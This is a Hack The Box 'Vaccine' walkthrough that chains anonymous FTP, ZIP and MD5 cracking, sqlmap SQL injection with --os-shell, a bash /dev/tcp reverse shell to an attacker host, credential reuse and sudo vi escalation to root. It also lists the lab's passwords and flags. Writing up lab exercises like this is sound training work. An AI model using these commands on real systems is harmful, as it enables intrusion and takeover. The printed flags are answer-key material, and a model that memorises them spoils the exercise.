



# Vaccine

This write-up is provided strictly for educational purposes, to demonstrate how exposed backup files, weak password storage, SQL injection, credential reuse, and sudo misconfigurations can be leveraged in controlled lab environments.

## Overview

This write-up documents the compromise of the _Vaccine_ machine from Hack The Box Starting Point (VIP).

The attack path is fully evidence-based and reproducible. No brute force or guessing was used.

The compromise involved:

- Full TCP port scanning
- Anonymous FTP enumeration
- Cracking a password-protected backup archive
- MD5 hash cracking
- Authenticated SQL injection
- Command execution via sqlmap
- Reverse shell upgrade and TTY stabilization
- Database credential extraction
- SSH pivot to postgres
- Sudo misconfiguration exploitation (vi abuse)
- User and root flag extraction

---

## Answers Summary

- **Additional service besides SSH and HTTP** → `FTP`
- **Anonymous login username** → `anonymous`
- **Downloaded file name** → `backup.zip`
- **John tool for ZIP hash extraction** → `zip2john`
- **Admin password** → `qwerty789`
- **sqlmap option for OS command execution** → `--os-shell`
- **Program postgres can run via sudo** → `vi`
- **User Flag** → `ec9b13ca4d6229cd5cc1e09980965bf7`
- **Root Flag** → `dd6e058e814260bc70e9bbdef2715849`

---

## 1. Initial Reconnaissance

A full TCP scan was performed to identify exposed services.

```bash
sudo nmap -sCV <target-ip> -p- --min-rate 1000
```

### Command Breakdown

- `-sC` → Default NSE scripts
- `-sV` → Service/version detection
- `-p-` → Scan all 65535 TCP ports
- `--min-rate 1000` → Increase scan speed

### Results

Relevant open ports:

```
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
```

Port **21** indicates FTP service, which became the initial attack vector.

---

## 2. FTP Enumeration

Anonymous login was enabled.

```bash
ftp <target-ip>
Username: anonymous
```

Listing files revealed:

```
backup.zip
```

The file was downloaded locally:

```bash
get backup.zip
```

This indicated sensitive data exposure via publicly accessible FTP.

---

## 3. Cracking the Backup Archive

The archive was password protected.

The hash was extracted using:

```bash
zip2john backup.zip > ziphash.txt
```

Cracked using rockyou wordlist:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt ziphash.txt
```

Recovered password:

```
741852963
```

Archive contents were extracted:

```bash
unzip backup.zip
```

---

## 4. Cracking the Admin Password

Inside `index.php`, the admin password was stored as MD5:

```
md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3"
```

The hash was cracked with John:

```bash
echo "2cb42f8734ea607eefed3b70af13bbd3" > adminhash.txt
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt adminhash.txt
```

Recovered password:

```
qwerty789
```

Login successful as:

```
admin : qwerty789
```

---

## 5. Authenticated SQL Injection

After login, the following endpoint was identified:

```
dashboard.php?search=test
```

Capture PHPSESSID via burp or devtools.

Tested using sqlmap:

```bash
sqlmap -u "http://<target-ip>/dashboard.php?search=test" \
--cookie="PHPSESSID=<session>" --dbs
```

Confirmed:

- PostgreSQL backend
- Stacked queries injection

To attempt command execution:

```bash
--os-shell
```

---

## 6. Command Execution and Shell Upgrade

sqlmap provides a limited pseudo-shell.

### Why Upgrade the Shell?

The sqlmap OS shell:

- Is not fully interactive
- Does not provide a proper TTY
- Causes issues with commands like `sudo -l`

To obtain a stable interactive shell:

### Listener (attacker)

```bash
nc -lvnp 4444
```

### Reverse shell (target)

```bash
bash -c "bash -i >& /dev/tcp/<attacker-ip>/4444 0>&1"
```

### TTY Stabilization

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

Then on attacker:

```bash
Ctrl+Z
stty raw -echo; fg
```

This provides:

- Proper job control
- Functional sudo
- Stable post-exploitation workflow

---

## 7. Credential Extraction and Pivot

In the web root:

```bash
/var/www/html/dashboard.php
```

Found:

```
pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");
```



This demonstrates credential reuse.

SSH access:

```bash
ssh postgres@<target-ip>
Password: P@s5w0rd!
```

User flag:

```bash
cat ~/user.txt
```



---

## 8. Privilege Escalation

Sudo enumeration:

```bash
sudo -l
```

Output:

```
(ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

Interactive editors can execute system commands.

Exploit:

```bash
sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

Inside vi:

```
:!bash
```

Verification:

```bash
whoami
root
```

---

## 9. Root Flag Extraction

```bash
cat /root/root.txt
```



---

## Conclusion

The compromise of Vaccine required:

1. Exploiting exposed FTP backup
2. Cracking weak password storage (ZIP + MD5)
3. Leveraging authenticated SQL injection
4. Upgrading to a stable reverse shell
5. Extracting reused credentials
6. Pivoting via SSH
7. Exploiting sudo misconfiguration
8. Retrieving both user and root flags

This lab demonstrates how multiple minor misconfigurations chain into full system compromise.
